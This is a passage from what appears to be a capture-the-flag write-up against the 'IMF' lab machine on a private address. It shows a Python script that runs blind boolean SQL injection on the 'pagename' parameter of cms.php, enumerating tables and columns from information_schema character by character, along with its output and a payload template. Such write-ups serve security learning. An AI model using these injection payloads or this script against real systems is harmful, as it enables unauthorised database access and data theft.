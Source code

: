 ```python
  37   │                 r = requests.get(sqli, cookies=cookies)
  38   │ 
  39   │                 if "Welcome to the IMF Administration." in r.text:
  40   │                     database += character
  41   │                     p2.status(database)
  42   │                     break
  43   │ 
  44   │             if database[-1:] == ",":
  45   │                 database += " "
  46   │ 
  47   │         if database[-1:] != "," and len(database) > 0:
  48   │             database += ","
  49   │ 
  50   │     if database[-1:] == ",":
  51   │         database = database[:-1]
  52   │ 
  53   │     p2.success(database)
  54   │ 
  55   │ 
  56   │ if __name__ == '__main__':
  57   │ 
  58   │     makeRequest()

```

output

```python3
[▆] Fuerza bruta: http://192.168.100.52/imfadministrator/cms.php?pagename=home'+and+(select+substring(table_name,1,1)+from+information_schema.tables+where+table_schema='admin'+limit+2,1)='r
[v] Tables: pages

```
now let's find the columns. ```+and+(select+substring(column_name,{position_character},1)+from+information_schema.columns+where+table_schema='admin'+and+table_name='pages'+limit+{dbs},1)='{character}"```

```python3
   1   │ from pwn import *
   2   │ import requests, pdb, signal, time, sys, string
   3   │ 
   4   │ def def_handler(sig,frame):
   5   │     print("\n\n[!] Saliendo...\n")
   6   │     sys.exit(1)
   7   │ 
   8   │ 
   9   │ # Ctrl+C
  10   │ signal.signal(signal.SIGINT, def_handler)
  11   │ 
  12   │ #Variables Globales
  13   │ main_url = "http://192.168.100.52/imfadministrator/cms.php?pagename=home"
  14   │ characters = string.ascii_lowercase + '-_'
  15   │ 
  16   │ 
  17   │ def makeRequest():
  18   │ 
  19   │     cookies = {'PHPSESSID': 'rftk9b1ducfunqjmrks8bcfb04'}
  20   │ 
  21   │     database = ""
  22   │     p1 =log.progress("Fuerza bruta")
  23   │     p1.status("Iniciando proceso de fuerza bruta")
  24   │ 
  25   │     time.sleep(2)
  26   │ 
  27   │     p2 = log.progress("Columns")
```